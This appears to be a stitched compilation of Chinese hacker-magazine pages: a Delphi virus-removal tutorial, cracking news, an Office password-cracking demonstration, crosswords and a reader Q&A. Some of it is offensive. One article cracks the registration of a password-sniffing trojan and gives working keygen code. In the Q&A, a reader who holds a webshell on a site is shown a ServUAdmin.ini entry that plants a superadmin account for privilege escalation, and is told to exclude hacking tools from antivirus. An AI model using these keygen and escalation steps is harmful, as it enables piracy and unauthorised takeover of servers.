  PFlag,MFlag,Iskill:boolean;
  Virfile:string;
begin
  Iskill:=false;
  Pr.dwSize:=SizeOf(Pr);
  Psnapshot:=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
  PFlag:=Process32First(Psnapshot,Pr);
  while PFlag do begin
    Mr.dwSize:=SizeOf(Mr);
    Msnapshot:=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE,Pr.th32ProcessID);
    MFlag:=Module32First(Msnapshot,Mr);
    while MFlag do begin
      Form1.Edit1.Text:='扫描内存 '+Mr.szExePath;
      if Isvirus(Mr.szExePath) then begin
        Form1.Memo1.Lines.Add('在进程中发现病毒:'+Mr.szExePath);
        Virfile:=Mr.szExePath;
        Iskill:=true;
      end;
      MFlag:=Module32Next(Msnapshot,Mr);
    end;
    CloseHandle(Msnapshot);
    if Iskill=true then begin
      // ... 后续终止与清理逻辑
    end;
    PFlag:=Process32Next(Psnapshot,Pr);
  end;
  CloseHandle(Psnapshot);
end;
```

```delphi
if (Integer(TerminateProcess(OpenProcess(PROCESS_TERMINATE, BOOL(0), pr.th32ProcessID), 0))<>0)
then
begin
  Form1.Memo1.Lines.Add('成功终止病毒进程'+Virfile);
  Sleep(2000); // 线程停顿2秒
  if DeleteFile(Virfile) then Form1.Memo1.Lines.Add('成功删除病毒文件'+Virfile)
  else Form1.Memo1.Lines.Add('删除病毒文件'+Virfile+'失败');
end
else Form1.Memo1.Lines.Add('终止病毒进程'+Virfile+'失败');
...
```

```delphi
Memo1.Lines.Add('删除病毒文件'+SysDir+Found.Name+'成功')
else Form1.Memo1.Lines.Add('无法删除病毒文件'+SysDir+Found.Name+'请重试');
...
I:=FindNext(Found); // 继续查找下一个文件
...
FindClose(Found);
Form1.Edit1.Text:='扫描完成';
```

这段代码不是很难，前面一半是网上到处可以看到的获取系统文件夹的方法，这里也就不多讲了。后面则是用了Delphi里的文件搜索函数，先调用FindFirst搜索，当有结果时调用IsVirus函数判断是否为病毒；是则删，然后用FindNext函数搜索下一个文件，直到搜索结束（此时I不等于0），调用FindClose关闭搜索。

由于这里用到了Windows的THelp32工具，所以要在uses里加上Thelp32。这里定义了两个句柄，一个Psnapshot是用来获得进程的，Msnapshot是用来获得进程里的模块的（这里主要是为了获得病毒文件的全路径），Pr和Mr是分别用来存储每个进程和进程中每个模块详细信息的，其中dwSize属性必须先赋值，否则会出错。

首先用CreateToolhelp32Snapshot创建进程快照，在每个进程里又创建模块快照，从而得到该程序所有文件的全路径。再用IsVirus函数来判断是否为病毒，如果是，则将进程终止，删除文件。特别需要注意的是终止进程和删除文件之间需要用API里的Sleep（多少毫秒）进行短暂延时，否则删除文件就会出错。然后当标志PFlag为True时继续得到下一个进程，依次进行，直到扫描完成，用CloseHandle关闭所有句柄。

## 四、扫描系统——彻底刮除病毒文件

扫描完进程，接下来我们就要扫描系统文件夹里的所有程序文件。代码如下：

```delphi
procedure ScanSYS();
var
  SysDir:string;
  pcSystemDirectory:PChar;
  dwSDSize:DWORD;
  i:integer;
  Found:TSearchRec;
begin
  dwSDSize := MAX_PATH + 1;
  GetMem(pcSystemDirectory, dwSDSize);
  try
    if Windows.GetSystemDirectory(pcSystemDirectory, dwSDSize) <> 0 then
      SysDir:=pcSystemDirectory+'\';
  finally
    FreeMem(pcSystemDirectory)
  end;
  i:=FindFirst(SysDir+'*.exe',faAnyFile,Found);
  while i=0 do
  begin
    Form1.Edit1.Text:='正在扫描:'+SysDir+Found.Name;
    if IsVirus(SysDir+Found.Name) then
    begin
      Form1.Memo1.Lines.Add('找到病毒文件'+SysDir+Found.Name);
      if DeleteFile(SysDir+Found.Name) then ...
    end;
    i:=FindNext(Found);
  end;
  FindClose(Found);
end;
```

## 五、恢复系统——清除病毒的残留痕迹

由于这个病毒没有启动项，所以就不用删除了，省了不少功夫。接下来当然是要恢复文件关联了。恢复关联其实很简单，只要把注册表里的一些值改回系统默认值就可以了。Delphi里有一个TRegistry类可以直接操作注册表，当然要在uses里加入Registry。

```delphi
procedure HuFuXiTong();
var
  MyReg:TRegistry;
begin
  try
    MyReg:=TRegistry.Create;
    MyReg.RootKey:=HKEY_CLASSES_ROOT;
    if MyReg.OpenKey('txtfile\shell\open\command', true) then
    begin
      MyReg.WriteExpandString('', '"%SystemRoot%\System32\NOTEPAD.EXE" "%1"');
      MyReg.CloseKey;
      Form1.Memo1.Lines.Add('恢复TXT文件关联成功');
    end;
    if MyReg.OpenKey('exefile\shell\open\command', true) then
    begin
      MyReg.WriteString('', '"%1" %*');
      MyReg.CloseKey;
      Form1.Memo1.Lines.Add('恢复EXE文件关联成功');
    end;
  finally
    MyReg.Free;
  end;
end;
```

这里在创建了TRegistry类的实例MyReg后要先定义主键，要改文件关联，当然要用HKEY_CLASSES_ROOT。然后再打开子键，OpenKey的第二个参数是子键不存在时是否建立。接着就要在项目里写入正确格式的数据了。

### 六、恢复QQ——攻克病毒的最后堡垒

恢复完文件关联，接下来只剩QQ文件夹里那个病毒了，为此我又写了一个过程：

```delphi
procedure HuFuQQ();
var
  ...
```

# 快马加鞭——专杀工具

```pascal
QQFile, QQPath, OldFile, NewFile: String;
begin
  QQFile := 'C:\Program Files\Tencent\QQ\QQ.exe';
  QQPath := ExtractFilePath(QQFile);
  if FileExists(QQFile) then
    Form1.Memo1.Lines.Add('发现QQ的安装目录:' + QQPath)
  else begin
    ShowMessage('为了恢复QQ，请接下来选择QQ主程序文件(QQ.exe)');
    if Form1.OpenD.Execute then QQFile := Form1.OpenD.FileName
    else begin
      Form1.Memo1.Lines.Add('未选择QQ主程序文件，无法恢复QQ');
      Exit;
    end;
  end;

  QQPath := ExtractFilePath(QQFile);
  OldFile := QQPath + '\TMPPlatform.exe';
  NewFile := QQPath + '\TMPlatform.exe';
  if FileExists(OldFile) then begin
    Form1.Memo1.Lines.Add('发现QQ已经被感染，现在开始恢复');
    if DeleteFile(NewFile) then begin
      Form1.Memo1.Lines.Add('成功删除QQ内病毒文件');
      if RenameFile(OldFile, NewFile) then Form1.Memo1.Lines.Add('QQ恢复成功')
      else Form1.Memo1.Lines.Add('发生未知错误，QQ恢复失败，请重试，或重装QQ');
    end
    else Form1.Memo1.Lines.Add('删除QQ内病毒失败，请检查QQ是否正在使用，请关闭QQ后再试');
  end
  else Form1.Memo1.Lines.Add('未发现QQ被感染，如有其他问题，请尝试重新安装QQ');
end;
```

这里前面那几行是为了判断QQ是否安装在默认的文件夹里（大部分人是这样），如果是则直接进行恢复，省去了让用户选择的麻烦……反正得到QQ目录以后就简单了，将病毒文件删掉，把原来的文件名字改回去就可以了。

好了，这个专杀工具所有的功能都完成了，再在界面上放一个“一键”按钮把这几个过程像冰糖葫芦一样串起来就OK了，顺便加些反馈提示，不然怎么让用户心里有底呢。最后还可以在界面放一个Label，写上自己的名字，怎么说也是自己的劳动成果嘛，也来威风一下。

> 说明：
- 这里只是完成专杀工具所应有的功能，并没过多考虑效率，实际上可在扫描算法上加强。
- 这里没用到多线程技术，扫描时程序看起来像“死了”，可自行改进（API或Thread）。
- 编译生成程序建议压缩，压缩后在尾部加特征码（体积会更小）。
- 程序体积也很重要，文中提到可考虑不用VCL改用KOL以减小体积。
- 线性插入的病毒可通过过程扫描模块扫描到文件。
- 文中环境在 Windows XP SP1 + Delphi 7.0 测试通过，代码可在光盘找到。

（本文所涉及到的未压缩的专杀工具exe、Aspack压缩后的专杀工具exe、QQ病毒和可执行源代码在光盘中均有收录）

# 继续说说吧

本文中作者将特征码“用WinHEX粘贴在专杀工具的文件末尾”，其实可用INI文件来存放特征码，程序运行时先读取INI文件（也可将INI做成资源）。这样特征码变更时只需修改INI内容即可。

## 手动查找MSN好友IP地址

利用监控MSN点对点传输时的端口情况，就可以较容易地知道对方的IP地址，操作方法如下所示：

- **第一步 连接网络**：登录MSN后切换到MS-DOS状态，在DOS窗口输入 `netstat` 查看当前网络连接，先识别MSN服务器地址。
- **第二步**：若想知道某位好友IP，可通过MSN给他传一个文件（类型和大小限制不大），并在DOS窗口再次执行 `netstat`。
- **第三步**：对比前后两次网络连接结果，第二次新增且可疑的IP通常就是好友IP（文中示例：`200.23.10.192`）。
- **提示**：操作时除登录MSN外，不要开启其他网络软件或浏览网页，以免无关IP干扰判断。

从本期开始，破解版将会为大家带来各种最新的破解信息。同时还会将一些不错的破解小技巧奉献给大家，如果你知道什么破解小技巧的话，那就要赶快拿出来和大家分享了哦。

# 每月“破解新闻”

## PEiD 0.94 beta

这次的PEiD 0.94并不是作者发布出来的，而是泄露出来的，是beta版本。不过功能还是增强了不少，识别功能比0.93有不少改进，同时可以识别的文件类型也比0.93多了不少。


## CFF Explorer II

CFF Explorer是第一款完全支持32位和64位以及.NET的PE编辑工具。它除了可以浏览32位的PE程序格式外，还可以浏览64位的PE程序，以及.NET的扩展PE格式，并且可以浏览、提取.NET程序的资源。

连接：http://pmode.net/CFF.php

## OllyScript v0.92 开源了

OllyScript是目前广泛使用的OllyDbg的插件之一。它使得OllyDbg具备了脚本功能，这样我们就可以通过脚本在OllyDbg中自动完成一系列的动作。现在OllyScript的作者终于将最新版的OllyScript代码开源了，有兴趣的朋友可不要错过了。

连接：http://ollydbg.win32asmcommunity.net/index.php?action=vthread&forum=6&topic=1541

## 每月“破解技巧”：在OD中拦截AntiDump代码

很多壳用到了AntiDump的功能，当我们用LordPE工具Dump这些加壳后的进程时，Dump出来的文件只有4K大，其原理是这些壳修改了进程PEB结构中的映像大小。如果我们要在OD中跟踪到这段AntiDump代码的话，可以在OD中输入这样的指令：`hw [[fs:[30]]+0ch]+0ch]+20`，这样，当被调试的进程修改自身镜像大小时，OD就会中断下来，我们就可以看到相关的AntiDump代码。因为很多壳总喜欢把Anti代码放在一起，这样再慢慢跟踪的话就可能看到其它Anti代码了。

【新闻相关工具及其资源，在本期光盘中有提供】

# Office 2003 文档加密要三心

从Office 97直到2003，Office各个版本一直都使用密码设置来为文档提供基本的保护，相应的破解工具在网络上也流传了很久。虽然也有不少人认识到仅仅使用密码来保护Office文档是不够的，但是笔者在实际接触到一些单位在使用Office电子办公的过程中，发现仅仅使用设置密码手段来保护重要文档的做法在许多公司、单位还是很普遍，大家对破解者是怎样破解加密文档密码都还没有概念。

本文不想谈应该设多少位的密码才安全，也不想谈不要对一批文件使用同一个密码以及不要将密码写在某张纸上这些老生常谈的话题。笔者在生活中是个很实际的人，将直接使用破解者的工具：Advanced Office Password Recovery（以下简称AOPR），为您揭示破解Office 2003加密文档的方法。

- 软件名称：Advanced Office Password Recovery 3.02 汉化版
- 授权方式：共享版
- 软件大小：2.79MB
- 下载地址：http://www.piaodown.com/down/soft/18867.htm

AOPR是个很老牌的Office密码恢复工具，虽然名为密码恢复工具，却很少出现有人忘记密码而使用它的情况，反倒是不怀好意者常常会利用它来破解他人的加密文档。因此，笔者将使用AOPR，从破解者的角度向您揭示Office 2003文档的密码是怎样被攻破的，现身说法帮助您使用一个真正安全、让AOPR也不得不服的高强度又不难于记忆的密码来做好重要文档的加密工作。

## 一、测试弱密码

第一步：以幻灯片文档为例，在PowerPoint 2003主界面上依次选择“工具”→“选项”→“安全性”，分别设置打开权限密码和修改权限密码，笔者为了演示，将其分别设为123456和654321（如图1）。


第二步：使用AOPR，选择“字典破解”或“暴力破解”，1秒内就破出来密码了（如图2）。


## 二、测试中等强度密码

第一步：以Excel文档为例，在Excel 2003主界面上依次选择“工具”→“选项”→“安全性”，并将读/写密码均设为一个9位密码“1q2w3e4r5”。

第二步：使用AOPR打开“大众电脑安全.xls”Excel文件，经过数十分钟的等待，破出了这个相当长的密码（如图3）。

有趣的是，AOPR破出的读取密码是原先设置的密码，但是写权限密码却被改成了“1b1b1b5b5b3b1”，而原先设的写权限密码本也是“1q2w3e4r5”。经过笔者检验，用“1b1b1b5b5b3b1”也确实可以通过验证，估计这与Excel 2003本身加密的方式及AOPR破解的机理有关，不过作为需要密码恢复或是破解文档加密的人来说，能够做到这步也就足够了。


## 三、测试强密码

第一步：以Word文档为例，在Word 2003中为“大众电脑安全.doc”这个Word文档设置一个比较强的密码：“www.secumag.com”，并保存之。

第二步：使用AOPR的含掩码的暴力破译功能，掩码填写 www.???????.com，并去掉“预备暴力破译”“预备字典破译”几项，经过几分钟，就破出来密码（如图4）。


## 四、测试超高强度密码

第一步：以MDB数据库文件为例，在Access 2003主界面上依次选择“工具”→“安全”→“设置数据库密码”，并设置一个足足有14位之长的复杂密码：“@w#e$r%t^y&u*i”。

第二步：使用AOPR一秒钟就能够破出来密码（如图5）！


## 测试结论

- 无论在什么情况下，绝对不能设置8位以下的纯数字或纯字母密码，否则极短的时间内就可被如AOPR这样的自动化破解工具攻破。
- 对于Office 2003中的Word、Excel、PowerPoint三个办公软件来说，设置9~15位的数字、字符混合密码，能够起到一定反破解作用，但是不能乐观。若是破解者有足够的时间和坚定的信念，可以在有限的时间内（几天、数十天）达到目的，因此这类密码不建议用来对重要的文档进行加密，仅对稍微有些重要且泄露也不会造成太大损失的文件，不妨使用这种类型的密码进行加密。这样的密码最好使用如 #s3cum4g@2005 这样有一定意义但又不容易被字典攻击击破的密码。
- 永远不要信任对Access 2003及更低版本的加密，对Access创建的MDB数据库文件设置的密码即使再复杂，也将被1秒钟攻破，形同虚设。
- 真正重要的Office 2003文档，不要依赖简单的加密设置。推荐使用信息权限管理功能（IRM），它基于数字签名、数字认证等多项安全技术，能够利用MSN Passport账号为不同的人分配各级权限，完成真正安全的机密信息保障任务。

> 【配套工具 Advanced Office Password Recovery V3.03 汉化版.zip 已经收录在本期光盘中】

【编后语】  
通过这篇文章，我想大家已经知道Office密码的脆弱，所以大家在保护Office文档时，不能单单用一个比较强又复杂的密码，而且不可以过于依赖Office软件本身提供的密码保护功能。另外，大家给Office文档加了密码后还可以使用WinRAR或WinZIP等压缩软件把Office文档打包，并加上密码，这样就可以起到双重保护的作用。

# 一款知名木马工具的注册破解

风飘雪

在本篇文章中，你将会学到注册机的制作技巧。密码监听器2.6是一款知名的木马工具软件。密码监听器用于监听网页的密码，包括网页上的邮箱、论坛、聊天室等等。只需在一台电脑上运行，就可以监听局域网内任意一台电脑登录的账号和密码，并将密码显示、保存，或发送到用户指定的邮箱。此软件的注册拥有很多的“陷阱”，破解逆向者稍不留意，就会导致注册失败。破解软件的过程中主要有黑名单、预置多个数字比较、非明码比较等“拦路虎”，关键的障碍简述如下：

注册姓名黑名单有：guodong, ttian, fpx, fpxfpx, www.51safe.org, downbest.net, www.sq88.com, zxm, KUNGBIM, zhenyu software, 77169, 77169.org, ttdown，共13个。

程序的算法：首先将输入的姓名和 whm-w 这一字符串相连接，形成一个新的姓名字符串，根据这个新姓名字符串计算注册码。下面来看这段代码：

```asm
Reference To: MSVCRT._mbscmp, Ord:0159h
...
mov esi, dword ptr [00411514]
...
push 00416658
push eax
call esi
```

以上表明，注册码前两位必须是25，否则“注册失败”。下面只讨论从第3位开始直到末位的注册码。

```asm
...
mov eax, dword ptr [eax]
...
mov ebx, 00416278
push ebx
push eax
...
call esi
...
```

以上，对接下来的注册码首位和末位进行判断，不能为0，否则“注册失败”。

```asm
Referenced by a (Un)conditional or (C)onditional Jump at Address:
...
movsx esi, byte ptr [ecx+eax]
add dword ptr [ebp-24], esi
inc ecx
cmp ecx, edx
jl 0040D380
```

以上是算法的关键流程，将新姓名字符串的ASCII码求和，存入 ebp-24。

```asm
...
xor edi, dword ptr [ebp-28]
cmp dword ptr [ebp-24], edi
jne 0040D579
```

以上即为关键比较和关键跳转。edi为注册码末尾2位与前面的异或运算的值。末尾两位除不能为零外任意，我们暂且取73。由于非明码比较，用对键加壳做的keymake制作内存注册机失败，但可以用keymake制作算法注册机，语言为32位汇编语言。它的rek文件如下：

```asm
const

data
szHomePage db 'http://fpx.yeah.net',0
szEmail db 'mailto:gdi@yeah.net',0
szErrMess db '请输入姓名!',0
szBuffer db 50 dup (0)
szHex db '25%d73',0
szM db 'whm-w',0
code
invoke lstrcat,eax,addr szM
...
xor ebx,73
invoke wsprintf,addr szBuffer,addr szHex,ebx
lea EAX,szBuffer
```

生成后的界面如图1所示。也可以用Visual Basic语言编写，界面添加两个文本框，不需要添加按钮，但那样不简洁、不专业，代码如下：


```vb
Dim myname As String
Dim zcm As Integer
Private Sub Text1_Change()
zcm = 0
myname = Text1.Text + "whm-w"
For i = 1 To Len(myname)
  zcm = zcm + Asc(Mid$(myname, i, 1))
Next i
zcm = zcm Xor 73
Text2.Text = "25" & zcm & "73"
End Sub
```

# 12月 填字游戏黑客圣诞

到了这里，有朋友要问了，我不会编程，怎么办呀？你可以使用注册机生成器0.9（keygengain）。它是一款自动生成软件注册机的软件，适用于破解出软件、找出了注册算法，却懒得或没能力编注册机的Cracker们。它可以自己定义变量数，控制注册名转换为大写/小写、长度限制，注册码可按一定格式输出，并可附加说明。

使用注册机生成器的方法很简单：找出注册算法后，将数学表达式写入命令栏，格式类似于C语言；变量在变量表声明并设初值。Name和i变量已经给定，不能修改，分别是注册名（修正后）和循环计数变量。确定无误后可生成注册机。


```c
For i=1 to <Name的长度>
BEGIN
  用户输入的命令
END
```

运行注册机生成器，增设a、b两个变量并赋初值，共输出三个变量a、s、b（如图2所示）。点击“导出”按钮即可生成注册机。生成后的注册机界面如图3所示。


本文介绍写注册机的方法可以说是很简单的，但真正使用这类简单注册算法的程序已较少。作为练习是不错的机会。若你想自己写注册机，仍应学习一门编程语言，这样将来分析程序后就可以独立编写。

## 10月黑客填字游戏答案

填字游戏答案网格（含 Across/Down 字母）

- 捕获原始的数据包
- 设置Filter，只捕获自己感兴趣的数据包
- 方便地把捕获的数据包输出到文件和软件输入
- 发送原始的数据包
- 统计网络流量

Wincap：Wincap是UNIX下libpcap移植到Windows下的产物，工作于驱动层，可高效进行网络操作。很多嗅探器都需要安装该驱动后运行。

Solaris：Sun公司开发发布的UNIX分支系统，曾从BSD Unix移植而来，支持SPARC及x86等平台，稳定性高。

SSH：Secure Shell。用于在不安全网络上建立安全通信通道，防止中间人攻击和明文窃听。

ISA：ISA Server是部署在Windows 2000上的企业级防火墙与Web缓存服务器，提供访问控制与管理功能。

SDK：Software Development Kit，软件开发工具包，包含文档、示例与工具，用于应用开发。

SSL：Secure Sockets Layer，网络安全协议，通过握手、证书与加密机制保障传输安全。

# 《黑客手册》12月论坛年终盘点

## 压寨小虎无组织！

**名词解释：**  
黑帮：黑客手册杂志社  
坛宗：《黑客手册》的论坛  
书宗镇宗之宝：人人抢购的学黑客技术、泡MM等用处多多的《黑客手册》  
站宗：黑客手册的官方站  
堂主：本论坛坛友  
发招：在论坛发帖子

弹指一瞬间，“黑帮”（这是第三次告诉那些不知道名字的朋友，说的就是我们《黑客手册》啊！记得下次再买期刊或者买本《黑客手册2005年合订本》就看懂了！）自成立，已经历过完整的8个月……

众帮友还群策群力，一致推选出了7位优秀堂主，分别是 h4k_b4n、紫天星、心月、绝杀、Noise、sky 和 ghostsages。为此他们7人都受到了黑帮主席团的表扬并嘉奖——每人赠送一本精美的武林密宝《黑客手册》。

如今江湖上黑帮的门人遍布天下，在全国各个地区都设有不同分堂（我们各个地区的群），各地的会员可以加入我们的分堂，在里面你可以直接面对面地与当地的学姐学妹、学哥学弟切磋武艺（交流你们的黑客技术啊！）。

**总堂：nohack 的朋友们（8779373）**  
来这里直面黑帮主席团成员……

**坛宗：黑客手册杂志群（1555552）**  
来这里侃与我们书宗宝物有关的话题，谈论闲杂话题，会被打入黑帮后山的无底洞的。

**吉林分堂：黑客手册吉林群（16475479）**  
吉林，东北三省中间的一个省，拥有着我们黑帮大规模的弟子，内有我们的许多优秀人士……

**山东分堂：黑客手册山东群（14699959）**  
梁山108名好汉，我们目标也是招108个分堂会员，再现当年梁山之雄风……

**特别说明：**朋友们进群时请在申请时说明你在坛宗的名字（就是你在论坛的ID），否则我们的堂主会以为你是卧底，对你不理睬哦！

11月黑帮幸运之星是来自零总堂的朋友，在坛宗的名字叫 hallang，其实说起来是我们一位堂主级别的人物吧，平时在坛宗里表现十分积极，大家不会的话去找他啊！

**hallang 的喃喃细语：**  
大家好，我是 hallang，是“Windows高效助手”的版主，也是 www.hackfans.net 的站长……

## 11期黑客数字游戏答案

经过前两期的填字游戏，你是否觉得自己长了很多见识呢？呵呵，这也是小编我开始设计的初衷，希望大家都能从这个栏目中开拓自己的视野，增长对黑客技术的了解，让自己能够站得更高、看得更远。废话少说，快来看看第三期填字的答案吧！

填字游戏答案网格（包含词条如 Apache、ROOT、INSERT、FIND、MIN、SUNION、WEBDAV、DROPRINTF 等）

## Apache

Apache 是世界排名第一的 Web 服务器。根据统计，世界上百分之五十以上的 Web 服务器在使用 Apache。1995 年 4 月，最早的 Apache（0.6.2 版）由 Apache Group 公布发行。Apache Group 是一个完全通过 Internet 进行运作的非营利机构，由它来决定 Apache Web 服务器的标准发行版中应该包含哪些内容，许可任何人修改错误、提供新的特征并将它移植到新的平台上，以及其他的工作。当新的代码被提交给 Apache Group 时，该团体审核它的具体内容，进行测试，如果认为满意，该代码就会被集成到 Apache 的主要发行版中。

- Apache 的特性：
- 1）几乎可以运行在所有的计算机平台上。
- 2）支持最新的 HTTP/1.1 协议。
- 3）简单而且强有力的基于文件的配置（httpd.conf）。
- 4）支持通用网关接口（CGI）。
- 5）支持虚拟主机。
- 6）支持 HTTP 认证。
- 7）集成 Perl。
- 8）集成的代理服务器。
- 9）可以通过 Web 浏览器监视服务器的状态，可以自定义日志。
- 10）支持服务器端包含命令（SSI）。
- 11）支持安全套接层（SSL）。
- 12）具有用户会话过程的跟踪能力。
- 13）支持 FastCGI。
- 14）支持 Java Servlets。

WebDAV（Web-based Distributed Authoring and Versioning）是一种基于 HTTP 1.1 协议的通信协议。它扩展了 HTTP 1.1，在 GET、POST、HEAD 等几个 HTTP 标准方法以外添加了一些新的方法，使应用程序可直接对 Web Server 读写，并支持文件锁定（Locking）及解锁（Unlock），还可以支持文件的版本控制。Microsoft Windows 2000/XP 及 IE、Office，还有 Adobe/Macromedia 的 DW 等都支持 WebDAV，这又大大增强了 Web 应用的价值以及效能。对于需要大批发布内容的用户而言，应用 WebDAV 可以降低对 CMS 系统的依赖，而且能够更自由地进行创作。上传、下载变得轻松自如。

有关 WebDAV 的信息主要集中在 WebDAV 资源站：http://www.webdav.org

## EIP、ESP

EIP 寄存器保存着程序要执行的下一条指令的地址。我们如果可控制程序的运行流程，就要使 EIP 保存我们给出的指令地址。在所有程序中，每当一个函数返回时，下一条指令地址会从堆栈拷贝到 EIP 指针。而这时 ESP 始终指向栈顶，栈中的数据越多，ESP 的值越小。因为这个地址仍在堆栈中，所以如果我们能覆盖这个地址并生成新的地址，那么就有可能使程序在我们覆盖的新地址继续执行，再在此地址处放置我们的代码（称之为 shellcode），那么该程序就被我们控制了。

## SESSION

在脚本中，常常通过 SESSION 记录用户的有关信息，以供用户再次以此身份对 Web 服务器提出请求时作确认。例如，我们在某些网站中常常要求用户登录，但我们怎么知道用户已经登录了呢？如果没有 SESSION 的话，登录信息是无法保留的，那岂不是要让用户在每一页网页中都提供用户名和密码？SESSION 用中文来解释就是会话期，一个会话期开始于用户输入一个站点的网址时，结束于他离开这个站点时。做过网站的人都有这样的体会：在一页页面中的变量（在本文都指服务器端变量，下同）是不能在下一页中用的，虽然有一些办法可以实现，比如用 form、urlstring 等，但有些对于用户来说是不方便的。即使让 form 自动提交，但其中的延时在现今的网络状况下足以让人窒息，而这两种方法都明显加大程序员的负担。如果你正在开发一个大型项目，那这些额外的负担是不能忽略的。而有了 SESSION 就好办了，SESSION 中注册的变量可以作为全局变量使用。

# 12期黑客填字游戏

新一期的黑客填字游戏又出炉啦！有了前几期的经验，填字游戏的设计越来越成熟，希望本版面真的能让大家既娱乐了身心又学到了知识，从而得到更大的进步！

### 游戏规则：

- 1. 词语分横向和纵向，横向词语的顺序是从左至右，纵向词语的顺序是从上至下。
- 2. 许多词语的某个字母或汉字会和其他词语共用一个格子，所以当你觉得要写到下一个题目时不要犹豫，写下去，因为也许这个题目的最后一个字母是第二个题目的开头字母。
- 3. 要根据题目所提示的去写，笔者已经充分考虑了难度，努力做到在你想了很久之后能找到答案。如果实在想不出，也不要急着看答案，去 GOOGLE 一下印象更深。
- 4. 答案分中文和英文两种，而英文占大部分，大部分都是你熟悉的英文简写，不会太长，所以不要想太多。
- 5. 遇到中文词语时，提示后面会有注释，请大家注意。

好吧，现在就开始吧！！

填字游戏网格（含编号 1–17）  
（答案将在下期公布）

- 12. SERV-U 用户信息都存储在一个叫 servXXXXXX.ini 中，XXXXXX 是什么？
- 13. 非安全——老提到的一个经常出漏洞的 PHP 论坛。
- 15. 一种著名的远程控制工具。
- 16. 动态链接库的简称。
- 17. 一种著名的加密算法。

## 横向

- 1. 许多后门用来隐藏传输数据技术的一种代称，其基本原理就是把非法的数据插入到合法的数据里流出计算机。
- 4. 一种常用的虚拟机软件的简称。
- 5. 文件系统对象的简称，许多脚本木马通过它来控制主机的文件。
- 6. 安全焦点出品的优秀扫描工具。
- 7. 美国国家标准信息交换代码的简称。
- 9. 信息产业部要求每个网站都得有的那个什么号？
- 10. 分布式组件对象模型的简称，它是微软为分布式对象编程长期筹划、并经过长期测试的全新技术。

## 纵向

- 1. 终端服务管理器的文件名。
- 2. 许多宽带用户用来登录互联网软件的名称，许多盗用事件也是因它而起。
- 3. 记载本工具信息的文件名。
- 4. C 语言中如果定义一个无返回值的函数，需在函数名前加什么？
- 6. 国内著名安全峰会的名称，由安全焦点发起。
- 8. 非武装地带的简称，网络安全中常用来代指受保护的网段。
- 11. 终端服务中最常用的命令。
- 14. 结构化异常处理技术的简称。

## 29 读信箱

> 手册奇缘

辽宁鞍山  秦启贺

自从上次在非安全拿到奖品之后，一日突然收到本市高中一名男生的来信，说在非安全上见到俺的名字（小编急忙翻看前文，原来“俺”并不是山东口音的专利），看来鞍山已获得了“俺”的发音授权，有种志同道合的感觉。恕我妄为人师，俺俩收了，这也不要拜俺为师？不过，俺还是很感动，并抽空回信给他鼓励一番。看到他，想到自己前些日子在网海冲浪，见到一兄弟借了本黑客的书，大家走后，我就一直尾随（谨防追尾，金贵哦），等待时机伺机借出。没有想到和俺一样，也是个“小菜”……

# Q&A

我在研究同学和我都关了防火墙以后，为什么用“net use \\ip\ipc$ "password" /user:"administrator"”也还是登录不上去啊，总是说系统发生错误 1231，不能访问网络位置？

遇到这种情况有几种可能：  
1. 对方关闭了 Server 服务，IPC$ 连接需要 Server 服务支持。  
2. 对方关闭了 139、445 端口（或者对方更改了端口号，这个可能性比较小）。  
3. 对方没有打开 IPC$ 默认共享。  
既然是你同学，你可以试试在他的电脑里运行 net share 看看有没有打开 IPC$ 共享。

请问在 2000 系统下，在命令提示符下启动了 net start 服务，如何关闭该服务？

你可以运行 services.msc，找到你要关闭的服务，右击服务名字，选择关闭。如果你不想它自动启动的话，可以把启动方式改为“手动”。你也可以在 CMD 下运行 net stop 服务名来关闭该服务。

我已经拿到一个站的 webshell，并且在 D 盘有写权限。我想利用 Serv-U 提权开 3389。它的版本是 Serv-U FTP Server 6.0.0.1，我不会配置 ServUAdmin.ini，请问怎么配置 ServUAdmin.ini 文件来加一个超级管理员权限呢？

```ini
[USER=用户名]
PassWord=rrEC6597127518D41891FD71D6B87D4F7E（改成你的密码散列；这个密码散列的真实密码为 wzhpro）
HomeDir=c:\
TimeOut=600
MaintenanceSystem=0
Note1="Wizard generated account"
Access1=C:\RWAELCDP
SKEYValues=
```

保存后就能用 FTP 连接了，连上后你就有管理员权限并可以执行命令了。

为什么在电脑里点开一些程序会一瞬间闪出一个类似 CMD 的对话框，然后还没看清楚就消失了，这是怎么回事？

那个程序可能是木马，你可以先用杀毒软件扫描一下。有些程序需要在命令提示符下运行；你可以打开 CMD，然后在 CMD 中用 CD 命令转到那个程序的目录，再输入那个程序的文件名，看看有没有显示什么信息。当然也有可能是文件损坏，这种可能比较小。

我们用的黑客工具很多都被杀毒软件杀了，怎么样才能不被杀毒软件误杀？

你可以把黑客工具放在一个文件夹中，然后到杀毒软件设置里，把该文件夹加入监控排除目录，这样你的工具就不会被杀了。其实这种方法在《非安全试玩版》有介绍，有兴趣的可以翻阅一下。

脚本是什么啊？我想知道脚本的具体含义。

脚本语言是一种解释性语言，例如 VBScript、JavaScript、InstallShield Script 等等。它不像 C、C++ 等可以编译成二进制代码，以可执行文件的形式存在。脚本语言不需要编译，可以直接使用，由解释器负责解释执行。

谁可以教教我星号密码查看器具体怎么用呀？

星号密码查看器有很多版本，不知道你用的是哪个。一般来说，星号密码查看器的界面上会有一个图片（或其他东西，比如箭头等）让你拖动，你只要把那个东西拖到星号密码上，软件中就会显示出明文密码了。